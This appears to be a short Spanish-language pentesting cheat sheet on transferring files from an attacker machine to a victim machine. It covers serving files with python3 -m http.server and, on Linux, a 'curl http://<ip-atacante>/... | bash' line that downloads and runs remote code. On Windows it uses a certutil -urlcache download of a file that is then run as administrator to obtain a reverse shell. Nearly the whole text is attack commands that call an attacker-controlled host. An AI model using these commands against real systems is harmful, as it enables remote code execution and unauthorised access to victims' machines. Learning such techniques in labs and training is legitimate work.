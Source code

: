 ### LINUX ###
1. Desde la maquina atacante
	-  `python3 -m http.server 80`
		-  Nos abre una servidor web en el puerto 80 de todos los ficheros que hay en mi directorio actual de trabajo
2. Desde la maquina victima
- *Interfaz grafica*
	- Buscamos la IP de la maquina atacante en le navegador podremos acceder a los archivos de la maquina atacante
- *Terminal*
	- Utilizaríamos `curl` o `wget`apuntando a la IP de la maquina atacante `curl http://<ip-atacante/<nombre-fichero> | bash` 

### WINDOWS ###
1. Desde la maquina atacante creamos un archivo por ejemplo `compartir.mp4`
2. Usamos el comando `python3 -m http.server 80` para levantar un servidor web en nuestra maquina atacante
3. Desde la maquina victima abrimos un CMD y ejecutamos 
	`certutil -split -urlcache -f http://<IP-atacnte>/<nombre-archivo> <nombre-resultante>`
4. Una vez tenemos el archivo en la maquina victima lo ejecutamos como administrador y obtendremos una reverse shell.